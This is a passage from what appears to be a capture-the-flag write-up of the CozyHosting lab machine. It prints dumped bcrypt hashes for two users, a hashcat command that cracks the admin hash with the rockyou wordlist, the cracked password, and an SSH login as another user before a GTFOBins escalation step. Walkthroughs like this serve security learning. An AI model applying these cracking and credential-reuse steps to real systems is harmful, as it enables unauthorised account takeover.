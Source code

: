 ![[/assets/images/cozyhosting21.png]]
![[/assets/images/cozyhosting22.png]]
```test
kanderson: $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin : $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

![[/assets/images/cozyhosting23.png]]

Considering that these hashes stem from a Spring Boot web application, the most likelycandidate is bcrypt . We save the administrator's hash to a file and attempt to crack it using Hashcat , with mode 3200 for bcrypt.

```sh
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt --force
```

![[/assets/images/cozyhosting24.png]]

```text
manchesterunited
```

# josh
ssh as josh using the password obtained.
![[/assets/images/cozyhosting25.png]]

![[/assets/images/cozyhosting26.png]]
## GTFOBins
![[/assets/images/cozyhosting27.png]]
![[/assets/images/cozyhosting28.png]]

